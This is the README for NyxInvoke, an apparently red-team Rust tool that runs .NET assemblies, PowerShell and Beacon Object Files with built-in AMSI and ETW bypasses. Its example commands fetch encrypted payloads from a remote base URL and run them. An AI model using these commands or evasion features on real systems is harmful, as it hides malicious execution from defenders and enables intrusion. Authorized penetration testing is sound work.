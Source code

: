 # NyxInvoke

NyxInvoke is a rust based command-line tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data

## Usage

NyxInvoke supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### Mode-Specific Options

1. CLR Mode:
```text
Execute a .NET assembly

Usage: NyxInvoke.exe clr [OPTIONS]

Options:
      --args <ARGS>                          Arguments for the executable
      --base <BASE_URL_OR_PATH>              Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>            Key filename or URL
      --iv <IV_FILENAME_OR_URL>              IV filename or URL
      --assembly <ASSEMBLY_FILENAME_OR_URL>  Assembly filename or URL
  -h, --help                                 Print help
```
2. PowerShell Mode:
```text
Execute a PowerShell command or script

Usage: NyxInvoke.exe ps [OPTIONS]

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to a PowerShell script to execute
  -h, --help               Print help                                Print help
```

3. BOF Mode:
```text
Execute a Beacon Object File (BOF)

Usage: NyxInvoke.exe bof [OPTIONS]

Options:
      --args <ARGS>...             Arguments for the BOF
      --base <BASE_URL_OR_PATH>    Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>  Key filename or URL
      --iv <IV_FILENAME_OR_URL>    IV filename or URL
      --bof <BOF_FILENAME_OR_URL>  BOF filename or URL
  -h, --help                       Print help                                Print help
```

## Examples

### CLR Mode

1. Remote Execution:
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. Local Execution:
   ```
   NyxInvoke.exe clr --key C:\path\to\clr_aes.key --iv C:\path\to\clr_aes.iv --assembly C:\path\to\clr_data.enc --args arg1 arg2
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe clr --args arg1 arg2
   ```

### PowerShell Mode

1. Script Execution:
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

2. Direct Command Execution:
   ```
   NyxInvoke.exe ps --command "Get-Process | Select-Object Name, ID"
   ```

### BOF Mode

1. Remote Execution:
   ```
   NyxInvoke.exe bof --base https://example.com/resources --key bof_aes.key --iv bof_aes.iv --bof bof_data.enc --args "str=argument1" "int=42"
   ```

2. Local Execution:
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe bof --args "str=argument1" "int=42"
   ```

## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that executes the 'dir' command.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\\Windows"
     ```


## Building

To build NyxInvoke

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc
```
or with compiled-in CLR or BOF data
```
cargo +nightly build --release --features=compiled_bof,compiled_clr
```

## Screenshot

- Remote CLR Executaion 

![Screenshot 2024-09-17 164409](https://github.com/user-attachments/assets/ba9b9200-226b-4179-a442-558be35b1dd9)

- Compiled CLR Executaion 

![Screenshot 2024-09-17 164446](https://github.com/user-attachments/assets/956d0a70-42cf-443c-8302-9cae967d7624)

- Local BOF Executaion 

![Screenshot 2024-09-17 164521](https://github.com/user-attachments/assets/9c992be6-902a-46b5-bafd-35909e7080a2)

- Compiled BOF Executaion 

![Screenshot 2024-09-17 164737](https://github.com/user-attachments/assets/a0b49a19-5657-47f6-ad15-92376b405b77)

- Powershell Command Executaion 

![Screenshot 2024-09-17 171636](https://github.com/user-attachments/assets/296bedfd-4bb9-4905-8391-c456fc591fe3)

- Powershell Script Executaion 

![Screenshot 2024-09-17 172028](https://github.com/user-attachments/assets/d055cb24-c8f0-4df7-b358-12a061f33c50)


## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

